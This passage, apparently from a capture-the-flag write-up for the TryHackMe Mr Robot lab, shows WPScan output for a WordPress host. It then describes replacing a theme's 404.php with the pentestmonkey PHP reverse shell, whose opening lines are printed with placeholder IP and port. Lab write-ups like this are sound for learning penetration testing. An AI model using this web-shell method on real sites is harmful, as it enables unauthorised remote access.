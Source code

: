 ![](https://github.com/pratty010/Boxes/blob/master/Try_Hack_Me/Mr_Robot_CTF/images/404_php.png)
\
**WPSCAN OUTPUT**
```bash
[32m[+][0m Checking Theme Versions (via Passive and Aggressive Methods)
[34m[i][0m Theme(s) Identified:
[32m[+][0m twentyfifteen
 | Location: http://10.10.87.211/wp-content/themes/twentyfifteen/
 | Last Updated: 2020-08-11T00:00:00.000Z
 | Readme: http://10.10.87.211/wp-content/themes/twentyfifteen/readme.txt
 | [33m[!][0m The version is out of date, the latest version is 2.7
 | Style URL: http://10.10.87.211/wp-content/themes/twentyfifteen/style.css
 | Style Name: Twenty Fifteen
 | Style URI: https://wordpress.org/themes/twentyfifteen/
 | Text Domain: twentyfifteen
```

We can now replace contents of a file like _404.php_ with reverse shell code. We start a listner on our side and invoke the modified file. \
I am using standard php reverse shell script from pentestmonkey(https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to repace teh content of the 404.php page. The only thing to change is the _IP and PORT_ on which you are listening. A person just starting out will find all the scripts rather useful.\
\
**SCRIPT**
```php
	<?php
	// php-reverse-shell - A Reverse Shell implementation in PHP
	// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
	//
	// This tool may be used for legal purposes only.  Users take full responsibility
	// for any actions performed using this tool.  The author accepts no liability
	// for damage caused by this tool.  If these terms are not acceptable to you, then
	// do not use this tool.
	set_time_limit (0);
	$VERSION = "1.0";
	$ip = '127.0.0.1';  // CHANGE THIS
	$port = 1234;       // CHANGE THIS
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
```